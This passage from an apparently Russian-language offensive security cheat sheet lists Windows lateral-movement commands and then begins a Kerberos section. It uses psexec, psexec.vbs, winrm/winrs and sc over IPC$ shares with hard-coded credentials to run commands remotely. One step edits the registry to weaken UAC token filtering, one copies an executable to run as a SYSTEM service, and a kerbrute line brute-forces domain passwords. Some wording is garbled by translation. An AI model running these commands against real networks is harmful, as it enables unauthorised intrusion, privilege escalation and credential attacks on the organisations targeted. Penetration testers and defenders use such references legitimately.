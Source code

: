 
6. psexec.exe удаленное выполнение команд
```
psexec / accepteula // Принять лицензионное соглашение
sc delete psexesvc
psexec \\192.168.1.185 -u pt007 -p admin123 cmd.exe
```

7.psexec.vbs удаленное выполнение команд
```
cscript psexec.vbs 192.168.1.158 pt007 admin123 "ipconfig"
```
 

8. winrm
// Быстрый запуск службы winrm на мясокомбинате и привязка к порту 5985:
```
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
netstat -ano|find "5985"
//
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 "whoami /all"
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 cmd
//UAC
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
winrs -r:http://192.168.1.152:5985 -u:pt007 -p:admin123 "whoami /groups"
```


9. Удаленное выполнение команд sc
// После установления соединения ipc, загрузите ожидающую программу bat или exe в целевую систему и создайте службу (программа будет выполняться на удаленной системе с правами системы при запуске службы):

```net use \\192.168.17.138\c$ "admin123" /user:pt007
net use
dir \\192.168.17.138\c$
copy test.exe \\192.168.17.138\c$
sc \\192.168.17.138 create test binpath= "c:\test.exe"
sc \\192.168.17.138 start test
sc \\192.168.17.138 del test
```


[lateral-movement-using-internetexplorer-application-object-com](https://homjxi0e.wordpress.com/2018/02/15/lateral-movement-using-internetexplorer-application-object-com/)



# Kerberos cheatsheet

## Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):
```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```
